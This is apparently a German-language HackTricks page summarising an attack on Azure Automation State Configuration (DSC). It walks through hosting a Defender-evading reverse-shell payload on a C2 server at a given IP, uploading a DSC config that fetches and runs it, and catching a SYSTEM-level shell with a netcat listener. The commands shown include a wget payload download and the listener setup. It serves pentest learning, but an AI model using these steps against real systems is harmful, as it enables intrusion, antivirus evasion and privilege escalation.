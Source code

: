 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Überprüfen Sie den vollständigen Beitrag unter:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Zusammenfassung der Vorbereitung und Schritte der Remote-Server (C2) Infrastruktur

#### Übersicht

Der Prozess umfasst die Einrichtung einer Remote-Server-Infrastruktur, um ein modifiziertes Nishang `Invoke-PowerShellTcp.ps1` Payload, genannt `RevPS.ps1`, zu hosten, das darauf ausgelegt ist, Windows Defender zu umgehen. Das Payload wird von einer Kali Linux-Maschine mit der IP `40.84.7.74` über einen einfachen Python HTTP-Server bereitgestellt. Der Vorgang wird in mehreren Schritten ausgeführt:

#### Schritt 1 — Dateien erstellen

- **Benötigte Dateien:** Zwei PowerShell-Skripte sind erforderlich:
1. `reverse_shell_config.ps1`: Eine Desired State Configuration (DSC) Datei, die das Payload abruft und ausführt. Sie ist erhältlich auf [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Ein Skript, um die Konfiguration auf die VM zu veröffentlichen, verfügbar auf [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Anpassung:** Variablen und Parameter in diesen Dateien müssen an die spezifische Umgebung des Benutzers angepasst werden, einschließlich Ressourcennamen, Dateipfaden und Server-/Payload-Identifikatoren.

#### Schritt 2 — Konfigurationsdatei zippen

- Die `reverse_shell_config.ps1` wird in eine `.zip`-Datei komprimiert, um sie für die Übertragung zum Azure Storage Account vorzubereiten.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Schritt 3 — Speicher-Kontext festlegen & hochladen

- Die gezippte Konfigurationsdatei wird in einen vordefinierten Azure Storage-Container, azure-pentest, mit dem Azure-Befehl Set-AzStorageBlobContent hochgeladen.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Schritt 4 — Kali-Box vorbereiten

- Der Kali-Server lädt die RevPS.ps1 Payload aus einem GitHub-Repository herunter.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Das Skript wird bearbeitet, um die Ziel-Windows-VM und den Port für die Reverse-Shell anzugeben.

#### Schritt 5 — Konfigurationsdatei veröffentlichen

- Die Konfigurationsdatei wird ausgeführt, was dazu führt, dass das Reverse-Shell-Skript an dem angegebenen Ort auf der Windows-VM bereitgestellt wird.

#### Schritt 6 — Payload hosten und Listener einrichten

- Ein Python SimpleHTTPServer wird gestartet, um die Payload zu hosten, zusammen mit einem Netcat-Listener, um eingehende Verbindungen zu erfassen.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Der geplante Task führt die Payload aus und erreicht SYSTEM-Ebene Privilegien.

#### Fazit

Die erfolgreiche Ausführung dieses Prozesses eröffnet zahlreiche Möglichkeiten für weitere Aktionen, wie z.B. Credential Dumping oder die Ausweitung des Angriffs auf mehrere VMs. Der Leitfaden ermutigt zu kontinuierlichem Lernen und Kreativität im Bereich Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
